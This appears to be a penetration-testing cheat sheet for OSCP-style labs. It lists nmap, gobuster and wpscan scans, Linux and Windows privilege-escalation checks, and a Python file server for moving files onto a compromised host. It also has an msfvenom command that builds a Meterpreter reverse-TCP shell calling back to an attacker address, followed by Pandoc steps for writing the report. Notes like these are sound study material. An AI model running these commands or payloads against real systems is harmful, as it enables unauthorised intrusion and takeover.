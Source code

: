 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
First steps to go from low-privilege user to root on a linux box.
```
joanna@openadmin:~$ sudo -l                     
Matching Defaults entries for joanna on openadmin:                              
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\
  :/bin\:/snap/bin 
  
User joanna may run the following commands on openadmin:                         
  (ALL) NOPASSWD: /bin/nano /opt/priv                                 
  joanna@openadmin:~$ 
```
Look at what the user can sudo and try to escalation from their. 
After testing what the user can do, look to see what is running as root.
```
joanna@openadmin:~$ find / -perm -u=s -type f 2>/dev/null   
/usr/lib/openssh/ssh-keysign     
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/snapd/snap-confine       
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper    
/usr/lib/policykit-1/polkit-agent-helper-1    
/usr/bin/newgrp                              
/usr/bin/pkexec         
/usr/bin/newgidmap      
/usr/bin/sudo   
/usr/bin/passwd  
/usr/bin/newuidmap
/usr/bin/chsh      
/usr/bin/traceroute6.iputils 
/usr/bin/chfn           
/usr/bin/gpasswd      
/usr/bin/at  
/bin/ping      
/bin/umount     
/bin/su        
/bin/mount     
/bin/fusermount
joanna@openadmin:~$
```

We can try and get a root shell if a service is running as root, i.e. apache. Start a python http server to transfer files to the 
compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running
the python SimpleHTTPServer.
```
$ sudo python -m SimpleHTTPServer 8888
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
# Pen Test Report
#### Requirements

- [Pandoc](https://pandoc.org/installing.html)
```
sudo apt-get install pandoc
```
- LaTeX (eg. [TeX Live](http://www.tug.org/texlive/)) in order to get `pdflatex` or `xelatex`
- [Eisvogel Pandoc LaTeX PDF Template](https://github.com/Wandmalfarbe/pandoc-latex-template#installation)
```
pandoc PENTEST_REPORT.md \
-o OSCP-OS-XXXXX-Lab-Report.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style breezedark
```
